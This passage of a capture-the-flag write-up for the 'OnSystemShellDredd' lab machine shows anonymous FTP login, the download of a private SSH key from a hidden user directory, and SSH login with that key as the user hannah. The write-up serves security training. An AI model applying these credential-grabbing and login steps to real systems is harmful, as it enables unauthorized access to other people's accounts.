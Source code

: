 
## FTP Enumeration ⤵️

Now Lets try Anonymous Login into the FTP port login →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/OnSystemShellDredd]
└─$ ftp 192.168.222.130 21
Connected to 192.168.222.130.
220 (vsFTPd 3.0.3)
Name (192.168.222.130:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||53806|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||53960|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||15635|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************|  1823      465.67 KiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:02 (0.86 KiB/s)
ftp>
```
{: .nolineno}

Now in this FTP session I got a private key ( `id_rsa` ) for ssh login and a username as `hannah` so lets try the ssh on port `61000` →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/monitoring]
└─$ ssh hannah@192.168.222.130 -i id_rsa -p 61000 
The authenticity of host '[192.168.222.130]:61000 ([192.168.222.130]:61000)' can not be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.222.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ whoami
hannah
```